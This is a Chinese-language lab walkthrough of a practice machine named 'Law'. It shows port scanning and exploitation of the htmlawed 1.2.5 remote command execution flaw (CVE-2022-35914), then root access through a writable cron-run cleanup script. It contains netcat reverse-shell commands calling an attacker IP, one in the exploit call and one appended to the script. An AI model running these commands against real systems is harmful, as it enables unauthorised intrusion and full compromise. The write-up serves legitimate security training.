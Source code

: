 ```yaml
---
description: 中等 / htmlawed 1.2.5 / CVE-2022-35914 / 远程命令执行 / 计划任务提权
---
```


# ✔️ Law

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA law 192.168.210.190 --open
```

<figure><img src="../.gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

* 检查80端口上的内容，发现正在运行的服务及其版本号为：htmlawed 1.2.5

<figure><img src="../.gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 搜索htmlawed 1.2.5相关已知公开漏洞，发现一个远程命令执行漏洞：

<figure><img src="../.gitbook/assets/3 (14).png" alt=""><figcaption></figcaption></figure>

* 得知htmlawed 1.2.5版本存在着CVE-2022-35914的漏洞，该漏洞说明了htmlawed是属于GLPI软件中的一个第三方库，其中包含了一个可用于执行系统命令的测试文件的默认路径：**vendor/htmlawed/htmlawed/htmLawedTest.php**，这意味着我们可以未经身份验证就能执行远程代码执行：

<figure><img src="../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 直接访问该路径失败，没找到这个页面：

<figure><img src="../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

* 同时找到了适用于CVE-2022-35914的PoC，但利用没有成功：

<figure><img src="../.gitbook/assets/7.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

* 分别使用dirsearch和gobuster没有扫出来任何文件/目录，推测目标系统中没有这个路径，因此尝试修改脚本中的默认路径为根目录：

<figure><img src="../.gitbook/assets/9.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

* 此时发现脚本可以成功执行：

<figure><img src="../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 根据利用脚本的帮助信息，可以指定执行的命令，因此直接指定反弹shell：

```bash
python3 CVE-2022-35914.py -u http://192.168.228.190 -c 'nc -e /bin/sh 192.168.45.161 4444'
```

<figure><img src="../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

* 本机做好监听，即可获得回连的shell：

<figure><img src="../.gitbook/assets/13.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/14 (1).png" alt=""><figcaption></figcaption></figure>

```bash
# 升级shell
find / -name python*
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## 权限提升

### 本地信息收集

* 简单的手动枚举没有什么能利用的，决定上传linpeas进行本地信息收集，当前所在的/var/www/目录没有写入权限，所以要切换到/tmp目录下：

```bash
# 在Kali本机linpeas.sh脚本所在的目录下开启服务器
python3 -m http.server 8888
# 在目标系统的/tmp目录下获取脚本文件
wget http://192.168.45.161:8888/linpeas.sh
```

<figure><img src="../.gitbook/assets/15 (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/16 (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/17 (8).png" alt=""><figcaption></figcaption></figure>

* 执行linpeas.sh脚本后，虽然没有找到可以直接利用的凭证信息，但是也发现了以下两处都出现了/var/www/目录下的<mark style="color:red;">**cleanup.sh文件**</mark>：

<figure><img src="../.gitbook/assets/18 (1).png" alt=""><figcaption></figcaption></figure>

* 这部分意味着以下文件可以由非root用户创建和修改：

<figure><img src="../.gitbook/assets/19.png" alt=""><figcaption></figcaption></figure>

* 这部分意味着当前的用户权限对以下文件是有写入权限的：

<figure><img src="../.gitbook/assets/20.png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 回到/var/www/目录下，查看cleanup.sh文件内容，发现是一个用于删除log日志的脚本文件，大概率和计划任务有关联：

<figure><img src="../.gitbook/assets/21.png" alt=""><figcaption></figcaption></figure>

* 查看计划任务：

<figure><img src="../.gitbook/assets/22.png" alt=""><figcaption></figcaption></figure>

* 在linpeas的输出信息中发现设置了一个用于定时清理的计时器：phpsessionclean.timer

<figure><img src="../.gitbook/assets/23.png" alt=""><figcaption></figcaption></figure>

* 在阅读/cron.d目录中的php文件内容时，里面也设置了每第9分钟和第39分钟的时候以root身份运行一次sessionclean文件：

<figure><img src="../.gitbook/assets/24.png" alt=""><figcaption></figcaption></figure>

### ROOT

* 由此，当我们可以以低权限账户来修改cleanup.sh的内容时，直接写入反弹shell的命令，然后等待计划任务自动执行，即可获取到shell：

```bash
echo 'nc -e /bin/bash 192.168.45.161 9999' >> cleanup.sh
```

<figure><img src="../.gitbook/assets/25.png" alt=""><figcaption></figcaption></figure>

* 在Kali本机做好监听，等待即可：

<figure><img src="../.gitbook/assets/26.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/27.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例get shell阶段当找不到漏洞利用的默认路径时，以为掉进了“兔子洞”，心态有点崩，但是因为该机器开放端口只有两个，在没有任何有效凭证的情况下，只有80端口是切入点，因此只要冷静下来尝试多修改几次脚本中的URI，就能利用成功。

利用计划任务进行提权的本质是，找到目标系统中可以让低权限账户修改的脚本，并且该脚本会由高权限账户定期执行，此时只需要写入自定义的操作，等待其定期执行即可。
{% endhint %}
